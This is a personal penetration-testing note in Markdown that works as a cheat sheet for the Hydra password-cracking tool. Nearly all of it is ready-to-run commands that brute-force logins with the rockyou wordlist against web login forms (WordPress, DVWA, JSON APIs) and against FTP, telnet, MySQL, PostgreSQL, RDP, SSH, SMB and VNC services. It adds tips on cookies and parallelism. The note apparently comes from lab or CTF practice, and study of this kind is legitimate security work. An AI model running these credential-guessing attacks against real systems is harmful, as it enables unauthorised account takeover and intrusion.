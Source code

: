 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Hydra URL Forms

![[Pasted image 20220912111730.png]]
```bash - kali
hydra $TARGET -s 80 http-get / -l $USER -P /usr/share/wordlists/rockyou.txt -vV -f -t 3
```

![[Pasted image 20220418151122.png | 750]]

The above form, part of the <u>/form/login.html page</u>, indicates that the POST request is handled by <u>/form/frontpage.php</u>, which is the URL we will feed to Hydra.  Since we are attacking the admin user login with a wordlist, the combined argument to Hydra becomes:  ==(IS IT "http-form-post" OR "http-post-form")?==

```bash - kali
hydra $TARGET -s 80 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f -t 3
```

If you get multiple results:
![[Pasted image 20220927182529.png]]

Try adding a cookie, like:
```bash - kali
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 80 targets.local http-get-form "/dvwa/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: security=low; PHPSESSID=$PHPSESSID"
```

OTHER EXAMPLES:
```bash - kali
hydra -l admin -P /usr/share/wordlists/rockyou.txt $TARGET -s 8081 http-post-form "/login.php:user=admin&pass=^PASS^:Invalid Password!" -t 3
```

```bash - kali
hydra -l none -P rockyou.txt $TARGET http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password" -t 64 -V
```

```bash - kali
hydra -L users -p passwords -t 10 $TARGET http-get-form "/ajax.php:fun=login&username=^USER^&password=^PASS^:invalid user" -f -t 3
```

```bash - kali
hydra -l $USER -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt $TARGET -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' -f -t 3
```

```bash - kali
hydra -L users -P /usr/share/wordlists/rockyou.txt -s 80 $TARGET http-post-form "/login:{'username'\:'^USER^','password'\:'^PASS^'}:failed" -f -t 3
```

==Lower the number of tasks in parallel, if having issues (Default is 16).==
```bash - kali
-t 3
```

### Hydra against JSON:
```bash - kali
hydra -l $USER -P /usr/share/wordlists/rockyou.txt $TARGET -s 3000 http-post-form "/api/session/authenticate:{\"username\"\:\"^USER^\",\"password\"\:\"^PASS^\"}:Authenticatio n failed:H=Content-Type\: application/json" -t 64
```

#### Hydra against FTP
```bash - kali
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET ftp -vvv -f -s 21 -t 3
```

#### Hydra against telnet
```bash - kali
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET telnet -vvv -f -s 23 -t 3
```

#### Hydra against MySQL
```bash - kali
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET mysql -vvv -f -s 3306 -t 3
```

#### Hydra against Postgresql
```bash - kali
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET postgres -vvv -f -s 5437 -t 3
```

#### Hydra against RDP
```bash - kali
hydra -l blake -P /usr/share/wordlists/rockyou.txt $TARGET rdp -vvv -f -s 3389 -t 3
```

#### Hydra against SSH
```bash - kali
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET ssh -vvv -f -s 22 -t 3
```

#### Hydra against SMB
```bash - kali
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET smb -vvv -f -s 445 -t 3
```

#### Hydra against VNC
```bash - kali
hydra -P /usr/share/wordlists/rockyou.txt $TARGET vnc -vvv -f -s 5900 -t 3
```


#### Hydra against WordPress
```bash
hydra -vV -L users -P /usr/share/wordlists/rockyou.txt $TARGET http-post-form '/wordpress/wp-login.php:log=^USER^&pwd&wp-submit=Log+In:F=is incorrect' -f -t 3
```